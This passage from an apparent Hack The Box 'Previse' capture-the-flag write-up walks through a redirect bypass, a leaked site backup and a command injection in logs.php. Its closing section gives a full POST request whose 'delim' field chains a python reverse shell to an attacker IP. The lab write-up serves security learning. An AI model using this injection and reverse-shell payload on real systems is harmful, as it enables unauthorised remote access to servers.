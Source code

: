 Considering this, configured Burp to **ignore redirects** by replacing responses `302 Found` to `200 OK`, preventing redirects. After doing this the following page was seen in the browser

![HTB Previse - Home - No redirect](https://i.imgur.com/vMilnPY.png){: .align-center}

After navigating to the Accounts page, found a form to create a user account, which allowed me to successfully create a user called `dummy:P@ssw0rd`

![HTB Previse - Accounts Page](https://i.imgur.com/sWr3RwU.png){: .align-center}

After creating the account, I was able to successfully enter the system with it and, navigating to Files, noticed that there is a *.zip file containing the site backup, uploaded by the user `newguy`

![HTB Previse - Files Page](https://i.imgur.com/dQZLxxm.png){: .align-center}

After downloading the source code and inspecting all pages, one thing that called my attention was a PHP file **invoking a python script** in `logs.php`, as excerpt below:

```php
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

Once inputs might not be properly verified, considering that from the UI perspective values provided come from a dropdown list, this would be tampered with command injection.

## Initial Access

Chaining the `delim` parameter with a simple python reverse shell from [PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked successfully in our scenario, giving us a reverse shell to explore further

```http
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=si6obkvacjcp7dcg9e9v2d9nkl
Connection: close

delim=comma%3bexport+RHOST%3d"10.10.16.39"%3bexport+RPORT%3d4443%3bpython+-c+'import+socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("/bin/sh")'
```
